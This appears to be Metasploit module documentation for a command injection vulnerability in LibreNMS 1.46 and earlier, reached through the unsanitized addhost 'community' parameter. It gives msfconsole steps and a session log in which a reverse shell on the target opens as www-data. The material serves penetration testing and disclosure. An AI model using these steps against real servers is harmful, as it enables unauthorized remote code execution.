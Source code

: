 ## Description
  
  In LibreNMS `v1.46` and below, there exists a command injection vulnerability in `capture.inc.php`.
  The vulnerable functionality is intended to run a command such as `snmpwalk` and save the output as
  a file. The `community` parameter is an unsanitized parameter retrieved through a POST request to `addhost`,
  and it is used to build the command that is executed in the `capture.inc.php` functionality. The final command
  is passed to the `popen()` function, which results in execution of arbitrary code.

  This module has been tested on LibreNMS `v1.46` and `v1.45`.

## Vulnerable Application

  A [pre-built OVA](https://github.com/librenms/packer-builds/releases/tag/1.46) can be downloaded via a LibreNMS repo.

  Additionally, vulnerable versions of LibreNMS for Ubuntu can be manually installed using the instructions [here](https://docs.librenms.org/Installation/Installation-Ubuntu-1804-Apache/).
  In the command `composer create-project --no-dev --keep-vcs librenms/librenms librenms dev-master`, replace `dev-master` with a vulnerable version of the software, ex: `1.46`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_addhost_cmd_inject```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS 1.46 on Ubuntu 18.04

  ```
  msf5 > use exploit/linux/http/librenms_addhost_cmd_inject
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set rhosts 192.168.37.143
  rhosts => 192.168.37.143
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set username blah
  username => blah
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set password password
  password => password
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS
  [+] Successfully added device with hostname dFEzcH
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [+] Successfully deleted device with hostname dFEzcH and id #126
  [*] Command: echo 38eJIFZsiRl3Er48;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n38eJIFZsiRl3Er48\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.143:55380) at 2019-05-29 15:26:02 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```
